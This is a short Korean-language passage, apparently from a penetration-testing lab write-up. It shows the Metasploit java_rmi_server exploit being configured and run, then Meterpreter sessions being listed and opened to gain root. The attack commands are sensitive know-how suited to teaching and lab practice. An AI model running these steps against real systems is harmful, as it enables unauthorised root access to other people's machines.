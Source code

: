 show options를 통해 yes라고 표시된 것들을 직접 지정해준다.

![3_29](./image3/Screenshot_2020-07-17_01-40-05.png)

이제 공격을 실행한다.

```
msf5 exploit(multi/misc/java_rmi_server)> exploit //혹은 run
```

Meterpreter session 하나가 open되었다는 문구가 뜬다.



```
>sessions -l //active sessions 확인
>sessions -i 2 //2번 ID인 shell로 exploit
```

그러면 exploit이 성공하며 root권한을 얻을 수 있다.
